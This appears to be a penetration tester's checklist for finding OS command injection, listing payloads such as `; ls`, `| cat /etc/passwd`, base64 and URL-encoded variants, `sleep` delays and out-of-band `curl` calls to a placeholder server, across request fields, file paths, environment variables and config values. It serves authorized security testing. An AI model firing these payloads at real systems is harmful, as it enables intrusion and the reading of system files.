 1.  **Initial Information Gathering** 
    - [ ] Identify and map all endpoints that accept user input which could be used to execute system commands.
    - [ ] Review source code (if available) to understand how user inputs are handled.
    - [ ] Check for user inputs in URLs, form fields, headers, and request bodies that interact with the operating system.

2.  **Basic Command Injection Testing**
    1. Test with simple command injection payloads to identify vulnerabilities:
        - [ ] `; ls`
        - [ ] `| ls`
        - [ ] `&& ls`
        - [ ] `|| ls`
        - [ ] `$(ls)`

3.  **Advanced Command Injection Techniques**
    1. Test for bypassing input validation and filtering:
        - [ ] `; cat /etc/passwd`
        - [ ] `| cat /etc/passwd`
        - [ ] `&& cat /etc/passwd`
        - [ ] `|| cat /etc/passwd`
        - [ ] `$(cat /etc/passwd)`
    2. Use encoding to bypass filters:
        - [ ] URL encoding: `%3B%20ls`
        - [ ] Double URL encoding: `%253B%2520ls`
        - [ ] Base64 encoding: `Y2F0IC9ldGMvcGFzc3dk`
    3. Test for time delay to identify blind command injection:
        - [ ] `; sleep 10`
        - [ ] `| sleep 10`
        - [ ] `&& sleep 10`
        - [ ] `|| sleep 10`
        - [ ] `$(sleep 10)`

4.  **Out-of-Band (OOB) Command Injection**
    1. Set up an OOB endpoint to detect blind command injection:
        - [ ] `; curl http://[YOUR_SERVER]/ping`
        - [ ] `| curl http://[YOUR_SERVER]/ping`
        - [ ] `&& curl http://[YOUR_SERVER]/ping`
        - [ ] `|| curl http://[YOUR_SERVER]/ping`
        - [ ] `$(curl http://[YOUR_SERVER]/ping)`
        - [ ] `\curl http://[YOUR_SERVER]/ping`
5.  **Command Injection in Different Contexts**
    1. Test command injection in file paths:
        - [ ] `/path/to/file; ls`
        - [ ] `/path/to/file| ls`
        - [ ] `/path/to/file&& ls`
    2. Test command injection in environment variables:
        - [ ] `ENV_VAR="value; ls"`
        - [ ] `ENV_VAR="value| ls"`
        - [ ] `ENV_VAR="value&& ls"`
    3. Test command injection in configuration files:
        - [ ] `config_option=value; ls`
        - [ ] `config_option=value| ls`
        - [ ] `config_option=value&& ls`
        
6.  **Error Handling and Response Analysis**
    - [ ] Analyze server responses for clues about command injection vulnerabilities.
    - [ ] Look for error messages that disclose command execution results or system information.
    - [ ] Verify if application stack traces are exposed in responses.